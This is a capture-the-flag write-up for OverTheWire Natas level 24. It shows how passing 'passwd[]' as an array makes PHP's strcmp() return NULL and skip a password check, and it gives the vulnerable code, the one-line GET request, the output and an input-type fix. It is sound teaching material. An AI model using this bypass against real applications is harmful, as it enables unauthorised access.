

# Natas Level 24 → 25

**Vulnerability:** PHP Type Juggling via Array Injection
**Difficulty:** Hard
**Tools Used:** Browser, URL Parameter Manipulation
**OWASP Category:** A04:2021 – Insecure Design
**Attack Class:** Type Confusion

---

### What the level gives you

The application presents a password field and checks the supplied value against a secret string using PHP's `strcmp()` function.

The source code is provided and reveals that the password comparison relies entirely on the result of `strcmp()`. No validation is performed on the parameter type before the comparison occurs.

---

### Vulnerability theory

This challenge demonstrates a classic PHP type confusion vulnerability.

The developer assumes that `$_REQUEST["passwd"]` will always be a string. However, PHP allows an attacker to submit arrays through URL parameters by appending square brackets to the parameter name.

When an array is passed to `strcmp()`, PHP generates a warning and returns `NULL` instead of a valid comparison result. Since the code only checks whether the return value is non-zero, the comparison logic can be bypassed.

The attack primitive provided by this flaw is authentication bypass through unexpected data types.

---

### Source code analysis

```php
if(array_key_exists("passwd",$_REQUEST)){
    if(!strcmp($_REQUEST["passwd"],"<censored>")){
        echo "The credentials for the next level are:";
    }
}
```

Vulnerability location:

```php
strcmp($_REQUEST["passwd"],"<censored>")
```

The developer assumes `$_REQUEST["passwd"]` is a string.

Supplying:

```text
?passwd[]
```

causes PHP to treat passwd as an array.

`strcmp()` throws a warning and returns `NULL`.

The surrounding condition interprets this unexpectedly and authentication is bypassed.

### Approach

After viewing the source code, I focused on the use of `strcmp()`.

Previous PHP vulnerabilities often relied on loose comparisons and improper type handling. Since there was no type validation before the function call, I suspected that passing an unexpected data type might trigger unusual behavior.

I tested the application using an array parameter instead of a string and immediately received a PHP warning indicating that an array had been supplied to `strcmp()`.

The page then revealed the credentials for the next level.

### Exploitation

```http
GET /?passwd[] HTTP/1.1
Host: natas24.natas.labs.overthewire.org
```

The square brackets force PHP to parse the parameter as an array.

Result:

```text
Warning: strcmp() expects parameter 1 to be string, array given

The credentials for the next level are:
Username: natas25
Password: <PASSWORD>
```

### Screenshot




![Authentication bypass using passwd[] parameter](assets/level-24-type-confusion-bypass.png)


### Real-world relevance

Type confusion vulnerabilities frequently occur in legacy PHP applications where developers assume input types without validation.

Although modern frameworks reduce exposure, this class of issue still appears during code reviews and penetration tests against custom applications. In real environments, it can lead to authentication bypass, privilege escalation, or authorization failures.

### Defender's perspective

Validate input types before performing comparisons.

Use strict validation:

```php
if(!is_string($_REQUEST["passwd"])) {
    exit();
}
```

Framework-level request validation and static analysis tools can detect unsafe assumptions about user-controlled data.

A WAF would not reliably prevent this attack because the payload is syntactically valid HTTP input.

### What I'd do differently

Nothing significant. The source code immediately exposed the vulnerable comparison, making type confusion the most likely attack path.